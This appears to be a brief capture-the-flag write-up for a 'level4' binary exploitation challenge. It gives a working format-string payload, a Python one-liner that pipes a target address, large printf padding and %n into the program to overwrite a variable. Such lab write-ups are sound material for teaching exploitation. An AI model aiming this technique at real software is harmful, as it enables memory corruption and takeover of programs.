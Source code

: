 # Walkthrough

## Disassembling the executable

see source.c

## Exploit

The principle was the same as level3 (see walkthrough level3), although the value of m had to be greater than the buffer size.

To reach that value, we used printf padding as such:

```
python -c "print('\x10\x98\x04\x08 %16930016p %p %p %p %p %p %p %p %p %p %p %n') " | ./level4
```
